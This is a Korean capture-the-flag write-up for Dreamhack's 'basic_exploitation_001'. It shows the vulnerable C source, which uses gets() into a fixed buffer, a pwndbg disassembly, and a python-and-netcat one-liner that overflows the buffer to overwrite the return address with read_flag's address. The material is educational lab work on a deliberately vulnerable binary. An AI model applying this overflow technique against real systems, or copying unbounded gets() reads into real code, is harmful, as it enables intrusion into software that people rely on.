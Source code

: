 ```c
// Name: basic_exploitation_001.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

`basic_exploitation_001.c` 코드를 읽어보면, `read_flag` 함수를 실행시키면 flag를 얻을 수 있으리라는 사실을 알 수 있다.
따라서 `main` 함수의 Return Address를 `read_flag`의 주소로 바꿔주면 flag를 얻을 수 있을 것이다.
또한, `gets(buf);`에서 입력 크기를 제한하지 않는다는 취약점이 있음을 알 수 있다.
그러니 이를 공략하자.

일단, `stdin`으로 넘겨줘야 하는 문자열을 구성하기 위해선 `read_flag`의 주소를 알아낼 필요가 있다.

```bash
$ gdb -q basic_exploitation_001
pwndbg: loaded 152 pwndbg commands and 47 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
Reading symbols from basic_exploitation_001...
(No debugging symbols found in basic_exploitation_001)
------- tip of the day (disable with set show-tips off) -------
heap_config shows heap related configuration
pwndbg> disassemble read_flag
Dump of assembler code for function read_flag:
   0x080485b9 <+0>:     push   ebp
   0x080485ba <+1>:     mov    ebp,esp
   0x080485bc <+3>:     push   0x8048679
   0x080485c1 <+8>:     call   0x8048410 <system@plt>
   0x080485c6 <+13>:    add    esp,0x4
   0x080485c9 <+16>:    nop
   0x080485ca <+17>:    leave
   0x080485cb <+18>:    ret
End of assembler dump.
pwndbg>
```

따라서 `read_flag` 함수의 주소는 `0x080485b9`임을 알 수 있으며, Return Address 자리에 `b'\xb9\x85\x04\x08'`을 채워주면 flag를 얻을 수 있다.
또한, `basic_exploitation_001.c`의 `main` 함수에서 선언된 변수가 `0x80`바이트 길이의 배열 `buf` 뿐이며, 스택은 `0x10`바이트 단위로 정렬되어야 하므로, `0x80`바이트의 공간이 할당되며, 그 뒤 `0x4`바이트가 SFP, 그 뒤 `0x4`바이트가 Return Address이다.
즉, `stdin`으로 넘겨줘야 할 문자열의 첫 `0x84`바이트의 내용은 상관 없으며, 그 뒤 `0x4`바이트를 `b'\xb9\x85\x04\x08'`로 채워주면 flag를 얻을 수 있다.

다음 명령어를 입력하면 서버에 연결한 후 `stdin`으로 넘겨줄 문자열이 버퍼에 저장되게 된다.
따라서 다음 명령어를 입력한 후 엔터를 한 번 더 눌러주면 flag를 얻을 수 있다.

```bash
$ (python3 -c "import sys; sys.stdout.buffer.write(b'A' * 0x84 + b'\xb9\x85\x04\x08')"; cat) | nc host3.dreamhack.games <port>
```